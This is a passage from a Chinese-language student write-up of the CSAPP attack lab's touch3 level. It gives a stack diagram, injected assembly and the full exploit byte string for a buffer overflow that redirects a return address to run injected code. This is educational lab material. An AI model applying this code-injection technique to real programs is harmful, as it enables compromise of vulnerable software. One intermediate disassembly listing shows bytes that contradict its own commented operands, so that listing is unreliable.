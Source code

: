 ```bash
0x5561dca0:     0x00401976
```
由于此次攻击目标为执行touch3，即在getbuf返回后就调用touch3而不是test，可以认为test的栈是安全不会被改变的，那么就可以将`cookie`放在test的栈中，即比getbuf初始化rsp地址高的地方。栈图如下：
```bash
                Stack
                +--------------+<------- high address
                |              |
                |     ...      |
            +-->+--------------+<---- 0x5561dcb0
            |   |   (cookie)   |# 原来存储test的其它信息(什么信息？栈帧？esp？)
test stack--+   +--------------+<---- set cookie here(0x5561dca8)
            |   |  return add  |
            +-->+--------------+<----return address(0x5561dca0)
            |   |              |
getbufstack-+   | (40字节的buf) |
            |   |              |
            +-->+--------------+<---- low address(buf栈顶0x5561dc78)
```
- 注入汇编代码如下：因为touch3中传入的参数是指针类型的，所以需要传递时候需要传递参数地址。
```bash
0000000000000000 <.text>:  
  0:   48 c7 c7 fa 97 b9 59    mov    $0x5561dca8,%rdi  # 将cookie地址放入%rdi中
  7:   68 ec 17 40 00          pushq  $0x4018fa  # 将touch3地址设置为return address
  c:   c3                      retq
```
- cookie为`0x59b997fa`，十六进制和十进制与ascii码转换如下：
```bash
         2 3 4 5 6 7       30 40 50 60 70 80 90 100 110 120  
       -------------      ---------------------------------  
      0:   0 @ P ` p     0:    (  2  <  F  P  Z  d   n   x  
      1: ! 1 A Q a q     1:    )  3  =  G  Q  [  e   o   y  
      2: " 2 B R b r     2:    *  4  >  H  R  \  f   p   z  
      3: # 3 C S c s     3: !  +  5  ?  I  S  ]  g   q   {  
      4: $ 4 D T d t     4: "  ,  6  @  J  T  ^  h   r   |  
      5: % 5 E U e u     5: #  -  7  A  K  U  _  i   s   }  
      6: & 6 F V f v     6: $  .  8  B  L  V  `  j   t   ~  
      7: ' 7 G W g w     7: %  /  9  C  M  W  a  k   u  DEL  
      8: ( 8 H X h x     8: &  0  :  D  N  X  b  l   v  
      9: ) 9 I Y i y     9: '  1  ;  E  O  Y  c  m   w  
      A: * : J Z j z  
      B: + ; K [ k {  
      C: , < L \ l |  
      D: - = M ] m }  
      E: . > N ^ n ~  
      F: / ? O _ o DEL
```
- 字节码如下：
```c
48 c7 c7 a8 dc 61 55    /* mov */ 
68 fa 18 40 00          /* push */ 
c3                      /* ret */ 
61 61 61                /* garbage */ 
61 61 61 61 61 61 61 61 /* garbage */ 
61 61 61 61 61 61 61 61 /* garbage */ 
61 61 61 61 61 61 61 61 /* garbage */ 
78 dc 61 55 00 00 00 00 /* set return address */
/* 0x59b997fa的ascii码 */
35 39 62 39 39 37 66 61 /* save cookie in the test func stack */
```
